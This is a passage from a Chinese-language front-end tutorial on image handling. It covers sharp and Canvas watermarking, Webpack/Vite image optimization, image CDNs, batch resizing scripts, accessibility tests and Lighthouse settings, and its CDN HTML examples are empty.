      .png()
      .toBuffer()

    pipeline = pipeline.composite([{
      input: watermark,
      gravity: position,
      blend: 'over',
    }])
  } 
  // 文字水印（需系统安装字体）
  else {
    const textWidth = text.length * fontSize * 0.6
    const textHeight = fontSize * 1.5

    const textImage = await sharp({
      create: {
        width: textWidth,
        height: textHeight,
        channels: 4,
        background: { r: 0, g: 0, b: 0, alpha: 0 },
      }
    })
    .composite([{
      input: Buffer.from(`<svg xmlns="http://www.w3.org/2000/svg">
        <text x="0" y="${fontSize}" font-family="Arial,sans-serif" 
              font-size="${fontSize}" fill="${color}" opacity="${opacity}">
          ${text}
        </text>
      </svg>`),
      gravity: 'center',
    }])
    .png()
    .toBuffer()

    pipeline = pipeline.composite([{
      input: textImage,
      gravity: position,
      blend: 'over',
    }])
  }

  await pipeline.toFile(outputPath)
  console.log(`✓ Watermark added: ${outputPath}`)
}

// ===== 使用示例 =====
addWatermark(
  './uploads/photo.jpg',
  './output/photo-watermarked.jpg',
  {
    text: '© 2024 YourBrand.com · 仅供预览',
    position: 'southeast',
    opacity: 0.12,
    fontSize: 36,
    color: '#FFFFFF',
  }
)
```

#### 方案 2：前端 Canvas 水印（防截图用途）

```javascript
/**
 * CanvasWatermarker — 前端 Canvas 水印工具
 *
 * ⚠️ 注意：此方案仅用于防止普通用户直接保存图片，
 *    技术用户仍可通过开发者工具获取无水印原图。
 *    版权保护请使用服务端水印。
 */
class CanvasWatermarker {
  /**
   * 为图像添加全画布平铺水印
   * @param {HTMLImageElement} sourceImg - 源图像
   * @param {object} options - 水印配置
   * @returns {HTMLCanvasElement} 带水印的 Canvas
   */
  static tileWatermark(sourceImg, options = {}) {
    const {
      text = '© Internal Use Only',
      fontSize = 16,
      color = 'rgba(255, 255, 255, 0.08)',
      rotation = -25,
      gapX = 120,
      gapY = 60,
    } = options

    const canvas = document.createElement('canvas')
    const ctx = canvas.getContext('2d')

    canvas.width = sourceImg.naturalWidth
    canvas.height = sourceImg.naturalHeight

    // 绘制原始图像
    ctx.drawImage(sourceImg, 0, 0)

    // 配置水印样式
    ctx.font = `${fontSize}px Arial, sans-serif`
    ctx.fillStyle = color
    ctx.textAlign = 'center'
    ctx.textBaseline = 'middle'

    // 计算平铺位置
    for (let y = gapY / 2; y < canvas.height; y += gapY) {
      for (let x = gapX / 2; x < canvas.width; x += gapX) {
        ctx.save()
        ctx.translate(x, y)
        ctx.rotate((rotation * Math.PI) / 180)
        ctx.fillText(text, 0, 0)
        ctx.restore()
      }
    }

    return canvas
  }
}

// ===== 使用示例 =====

const img = document.querySelector('.protected-image')
img.onload = function() {
  const watermarked = CanvasWatermarker.tileWatermark(img, {
    text: `${currentUserName} · ${new Date().toLocaleDateString()} · 内部资料`,
    fontSize: 14,
    color: 'rgba(200, 200, 200, 0.06)',
  })

  // 替换原 img 为 canvas（或转为 dataURL）
  img.src = watermarked.toDataURL('image/jpeg', 0.92)
}
```

### 调试技巧

```javascript
// 检查图像加载状态
const img = document.querySelector("img")
img.addEventListener("load", () => {
  console.log("图像加载成功")
})
img.addEventListener("error", () => {
  console.error("图像加载失败")
})

// 检查所有图像的 alt 属性
document.querySelectorAll("img").forEach((img) => {
  if (!img.alt && !img.hasAttribute("alt")) {
    console.warn("缺少 alt 属性:", img.src)
  }
})

// 检查响应式图像
const responsiveImg = document.querySelector("img[srcset]")
if (responsiveImg) {
  console.log("当前使用的图像:", responsiveImg.currentSrc)
  console.log("所有可用图像:", responsiveImg.srcset)
}
```

## 图像处理工具链

以下流程图展示了现代前端项目中从原始图像到最终交付的完整优化流水线：



现代前端项目通常需要在构建过程中对图像进行自动化处理，包括压缩、格式转换、尺寸调整等。

### 构建工具集成

#### Webpack

```javascript
// webpack.config.js
const ImageMinimizerPlugin = require("image-minimizer-webpack-plugin")

module.exports = {
  module: {
    rules: [
      {
        test: /\.(jpe?g|png|gif|svg|webp)$/i,
        type: "asset/resource"
      }
    ]
  },
  optimization: {
    minimizer: [
      new ImageMinimizerPlugin({
        minimizer: {
          implementation: ImageMinimizerPlugin.imageminMinify,
          options: {
            plugins: [
              ["gifsicle", { interlaced: true }],
              ["jpegtran", { progressive: true }],
              ["optipng", { optimizationLevel: 5 }],
              [
                "svgo",
                {
                  plugins: [{ name: "removeViewBox", active: false }]
                }
              ]
            ]
          }
        },
        generator: [
          {
            type: "asset",
            implementation: ImageMinimizerPlugin.imageminGenerate,
            options: {
              plugins: [["webp", { quality: 80 }]]
            }
          }
        ]
      })
    ]
  }
}
```

#### Vite

```javascript
// vite.config.js
import viteImagemin from "vite-plugin-imagemin"

export default {
  plugins: [
    viteImagemin({
      gifsicle: { optimizationLevel: 3 },
      optipng: { optimizationLevel: 7 },
      mozjpeg: { quality: 80 },
      svgo: {
        plugins: [{ name: "removeViewBox", active: false }]
      },
      webp: { quality: 80 }
    })
  ]
}
```

### 图像 CDN 服务

使用图像 CDN 可以动态处理图像，按需提供不同尺寸和格式的图像。

#### 常见图像 CDN 服务

**国内服务：**

- 阿里云 OSS 图片处理
- 腾讯云 COS 数据万象
- 七牛云数据处理

**国际服务：**

- Cloudinary
- Imgix
- Cloudflare Images

#### 使用示例

**阿里云 OSS：**

```html
<!-- 原图 -->


<!-- 调整尺寸 -->


<!-- 格式转换 -->


<!-- 组合处理 -->

```

**Cloudinary：**

```html
<!-- 原图 -->


<!-- 调整尺寸 -->


<!-- 自动格式选择 -->

```

#### CDN 最佳实践

```html
<!-- ✅ 推荐：根据设备提供不同尺寸 -->


<!-- ✅ 推荐：自动格式选择 + 懒加载 -->

```

### 自动化脚本

#### Node.js 批量处理

```javascript
// scripts/optimize-images.js
const sharp = require("sharp")
const fs = require("fs").promises
const path = require("path")

async function optimizeImages(inputDir, outputDir) {
  const files = await fs.readdir(inputDir)

  for (const file of files) {
    if (!/\.(jpg|jpeg|png)$/i.test(file)) continue

    const inputPath = path.join(inputDir, file)
    const outputPath = path.join(outputDir, file)
    const webpPath = outputPath.replace(/\.(jpg|jpeg|png)$/i, ".webp")

    // 生成 JPEG
    await sharp(inputPath).jpeg({ quality: 80, progressive: true }).toFile(outputPath)

    // 生成 WebP
    await sharp(inputPath).webp({ quality: 80 }).toFile(webpPath)

    console.log(`✓ Processed: ${file}`)
  }
}

optimizeImages("./images/raw", "./images/optimized")
```

#### 响应式图像生成

```javascript
// scripts/generate-responsive.js
const sharp = require("sharp")

async function generateResponsiveImages(inputPath, outputDir, baseName) {
  const sizes = [400, 800, 1200, 1600]

  for (const width of sizes) {
    // JPEG
    await sharp(inputPath)
      .resize(width)
      .jpeg({ quality: 80 })
      .toFile(`${outputDir}/${baseName}-${width}.jpg`)

    // WebP
    await sharp(inputPath)
      .resize(width)
      .webp({ quality: 80 })
      .toFile(`${outputDir}/${baseName}-${width}.webp`)
  }
}

generateResponsiveImages("./hero.jpg", "./images/hero", "hero")
```

### 测试与验证

#### 图像性能测试

```javascript
// tests/image-performance.js
describe("Image Performance", () => {
  it("should have alt attributes", () => {
    const images = document.querySelectorAll("img")
    images.forEach((img) => {
      expect(img.hasAttribute("alt")).toBe(true)
    })
  })

  it("should use lazy loading for non-critical images", () => {
    const images = document.querySelectorAll('img:not([loading="eager"])')
    images.forEach((img) => {
      expect(img.loading).toBe("lazy")
    })
  })

  it("should have width and height attributes", () => {
    const images = document.querySelectorAll("img")
    images.forEach((img) => {
      expect(img.hasAttribute("width") && img.hasAttribute("height")).toBe(true)
    })
  })
})
```

#### Lighthouse CI 集成

```yaml
# .lighthouserc.js
module.exports = {
  assertions: {
    'image-alt': 'error',
    'image-aspect-ratio': 'error',
    'uses-webp-images': 'warn',
    'offscreen-images': 'warn',
    'uses-optimized-images': 'warn',
  },
};
```

## 参考资料与更多阅读

- MDN：[``: The Image Embed element](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/img)
- MDN：[Responsive images](https://developer.mozilla.org/zh-CN/docs/Learn/HTML/Multimedia_and_embedding/Responsive_images)
- MDN：[`<picture>`: The Picture element](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/picture)
- MDN：[`<figure>` 和 `<figcaption>`](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/figure)
- MDN：[图片文件类型与最佳实践](https://developer.mozilla.org/zh-CN/docs/Web/Media/Formats/Image_types)
- web.dev：[Serve images with correct size](https://web.dev/serve-images-with-correct-dimensions/)
- web.dev：[Use modern image formats](https://web.dev/uses-webp-images/)
- Can I use：[`srcset`、`picture`、`WebP`、`AVIF` 等特性支持情况](https://caniuse.com/)


